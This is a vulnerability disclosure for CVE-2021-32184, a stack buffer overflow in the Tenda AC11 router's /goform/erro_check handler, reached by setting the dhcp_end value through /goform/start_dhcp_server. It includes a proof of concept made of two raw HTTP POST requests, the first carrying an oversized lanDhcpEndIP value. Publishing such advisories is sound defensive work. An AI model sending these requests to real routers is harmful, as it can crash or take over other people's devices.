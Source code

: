 # Tenda Router AC11 Vulnerability

This vulnerability lies in the `/goform/erro_check` page which influences the lastest version of Tenda Router AC11. (FYI, lastest version of this product is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html))

## Vulnerability description

There is a stack buffer overflow vulnerability in function `sub_80014DE0` (page `/goform/erro_check`).

This function uses `strcpy` to copy the string pointed by `v7` into a stack buffer pointed by `v28`. `v5` is directly retrived from the nvram variable `dhcp_end` without any security check.

![1](1.PNG)

the `dhcp_end` variable can be controlled by attacker by calling the function `sub_800CC270`(page `/goform/start_dhcp_server`) which gets in a parameter called `lanDhcpEndIP` into varialbe `v19`.And `v19` will be copied to a variable `v44`.

If `gstrcmp_0(v9,"true")` returns zero, and `gstrcmp_0(v7+148,v44)` returns  1, then the nvram variable `lan_netmask` will be set as `v44`.
And in function `gstrcmp`, if parameter 1 is equal to parameter 2,it will return zero. 

![2](2.PNG)

Variable `v9` can be controlled by mallicious attacker. So it will be set as `true`.And `v44` is also controlled by attacker. It's easy to make a different from a fixed variable. 

![3](3.PNG)

So by first setting the `dhcp_end` and then requesting the page `/goform/erro_check`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## POC

```plain
POST /goform/start_dhcp_server HTTP/1.1
Host: 192.168.0.1
Content-Length: 1043
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&dhcpEn=true&lanDhcpEndIP=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&LEDCloseTIme=1270219&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true
```

```plain
POST /goform/erro_check HTTP/1.1
Host: 192.168.0.1
Content-Length: 103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
## CVE ID
CVE-2021-32184